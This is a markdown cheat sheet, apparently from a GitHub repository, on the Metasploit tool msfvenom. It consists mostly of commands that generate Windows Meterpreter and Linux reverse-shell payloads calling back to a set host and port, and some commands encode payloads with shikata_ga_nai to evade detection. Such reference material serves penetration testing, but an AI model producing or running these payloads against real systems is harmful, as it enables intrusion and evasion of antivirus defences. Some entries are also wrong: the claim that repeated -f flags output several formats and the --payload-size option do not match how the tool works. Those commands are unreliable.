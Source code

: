 `msfvenom` is a command-line utility within the Metasploit Framework used for generating and encoding payloads. It replaces `msfpayload` and `msfencode` and allows users to create custom payloads for various exploits.

### **msfvenom Commands and Options**

1. **Basic Payload Generation**

   - **Description:** Generate a payload with specified parameters.
   - **Command:**
     ```bash
     msfvenom -p <payload> [options]
     ```
   - **Example:**
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o /tmp/evil.exe
     ```
   - **Explanation:** Generates a Windows Meterpreter reverse TCP payload with the specified LHOST and LPORT, outputting it as an executable file.

2. **List Available Payloads**

   - **Description:** List all available payloads in msfvenom.
   - **Command:**
     ```bash
     msfvenom -l payloads
     ```
   - **Example:**
     ```bash
     msfvenom -l payloads | grep windows
     ```
   - **Explanation:** Lists all payloads related to Windows.

3. **Encoding Payloads**

   - **Description:** Encode a payload to evade detection.
   - **Command:**
     ```bash
     msfvenom -p <payload> [options] -e <encoder> -i <iterations>
     ```
   - **Example:**
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o /tmp/encoded.exe
     ```
   - **Explanation:** Encodes the payload using the `x86/shikata_ga_nai` encoder with 3 iterations, outputting it as an executable.

4. **Payload Options**

   - **Description:** Display options for a specific payload.
   - **Command:**
     ```bash
     msfvenom -p <payload> --list-options
     ```
   - **Example:**
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp --list-options
     ```
   - **Explanation:** Lists the configuration options available for the specified payload.

5. **Generate Payloads with a Specific Format**

   - **Description:** Generate a payload and specify the output format.
   - **Command:**
     ```bash
     msfvenom -p <payload> [options] -f <format> -o <output_file>
     ```
   - **Example:**
     ```bash
     msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o /tmp/reverse_shell.elf
     ```
   - **Explanation:** Generates a Linux reverse shell payload in ELF format.

6. **Generate Payloads with Multiple Formats**

   - **Description:** Generate a payload and output it in multiple formats.
   - **Command:**
     ```bash
     msfvenom -p <payload> [options] -f <format1> -f <format2> -o <output_file>
     ```
   - **Example:**
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -f asp -o /tmp/payload
     ```
   - **Explanation:** Generates a payload and saves it in both EXE and ASP formats.

7. **Custom Payload Generation**

   - **Description:** Generate a custom payload with specific parameters.
   - **Command:**
     ```bash
     msfvenom -p <payload> [options] -a <architecture> -b <badchars> --platform <platform> -f <format>
     ```
   - **Example:**
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -a x86 --platform Windows -b "\x00\x0a" -f exe -o /tmp/custom_payload.exe
     ```
   - **Explanation:** Creates a Windows Meterpreter reverse TCP payload, avoiding bad characters `\x00` and `\x0a`.

8. **Generate Payload with a Specific Payload Size**

   - **Description:** Specify the payload size for the output.
   - **Command:**
     ```bash
     msfvenom -p <payload> [options] -e <encoder> -i <iterations> -b <badchars> --payload-size <size> -f <format>
     ```
   - **Example:**
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 3 -b "\x00" --payload-size 200 -f exe -o /tmp/payload_with_size.exe
     ```
   - **Explanation:** Generates a payload with a size of 200 bytes, encoded to evade detection.

### **Summary of msfvenom Commands**

| **Option**                     | **Command Example**                                                       | **Description**                                  |
|--------------------------------|---------------------------------------------------------------------------|--------------------------------------------------|
| Basic Payload Generation       | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o /tmp/evil.exe` | Generate a basic payload                        |
| List Available Payloads        | `msfvenom -l payloads`                                                      | List all available payloads                      |
| Encoding Payloads              | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o /tmp/encoded.exe` | Encode a payload to evade detection             |
| Payload Options                | `msfvenom -p windows/meterpreter/reverse_tcp --list-options`                 | Display options for a specific payload          |
| Generate Payloads with Format  | `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o /tmp/reverse_shell.elf` | Generate a payload with a specific format       |
| Generate Payloads with Multiple Formats | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -f asp -o /tmp/payload` | Generate payloads in multiple formats           |
| Custom Payload Generation      | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -a x86 --platform Windows -b "\x00\x0a" -f exe -o /tmp/custom_payload.exe` | Create custom payloads with specific parameters |
| Generate Payload with Size     | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 3 -b "\x00" --payload-size 200 -f exe -o /tmp/payload_with_size.exe` | Specify payload size                            |

`msfvenom` is a powerful tool for generating and customizing payloads, which can be used for various penetration testing and exploitation purposes.